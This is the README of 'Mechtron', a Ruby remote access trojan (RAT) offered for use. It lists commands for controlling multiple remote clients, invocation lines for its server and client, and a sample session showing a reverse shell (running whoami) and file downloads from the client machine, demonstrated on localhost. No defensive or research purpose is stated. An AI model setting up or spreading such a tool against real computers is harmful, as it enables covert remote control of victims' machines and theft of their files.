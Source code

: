 # Mechtron
A RAT tool. Mechtron allows you to control multiple remote computers and download files from them.

Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now you'll have to deal with the source folders.

## Commands
clients<br>
session IP<br>
get IP FILE_PATH FORMAT - formats are binary & text<br>
commands<br>

## Instructions
***Client -*** ```./mechtron.rb -c IP```<br>
***Server -*** ```./mechtron.rb -s```<br>
***Help -*** ```./mechtron.rb -h```

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
127.0.0.1 joined
session 127.0.0.1
session started with 127.0.0.1
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 127.0.0.1 /home/chrisbasinger/script.sh text
Starting download
download finished
get 127.0.0.1 /home/chrisbasinger/picture.jpg binary
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```
